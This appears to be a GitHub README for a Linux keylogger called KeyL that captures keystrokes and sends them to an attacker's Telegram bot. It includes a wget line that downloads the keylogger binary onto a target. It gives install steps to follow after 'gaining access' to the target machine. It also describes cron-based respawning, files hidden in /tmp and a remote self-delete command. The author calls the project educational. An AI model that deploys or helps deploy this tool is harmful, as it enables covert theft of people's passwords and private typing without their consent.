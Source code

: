 # KeyL

This program records keystrokes and sends them to a telegram bot, until the attacker send the command `/kill` so the program delete itself from the target's machine.

It require root access to the target.

## Disclaimer:
This project of a Key Logger is for **educational purposes**, it has been created only with my mere knowledge. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail for stupid reasons it's dumb.

## How2UseIt

Once you gain access to the target machine, copy and paste the content of `toBePasted.txt` to activate the persistent logger.

You need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token** (Mandatory) 
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, just ask ChatGPT or refer to the [Telegram Bot API docs](https://core.telegram.org/bots).

2. **Customize Logger Behavior**  (Optional)
   You can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install.

By default, `toBePasted.txt` installs the static version hosted on GitHub:
```bash
wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
```


Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




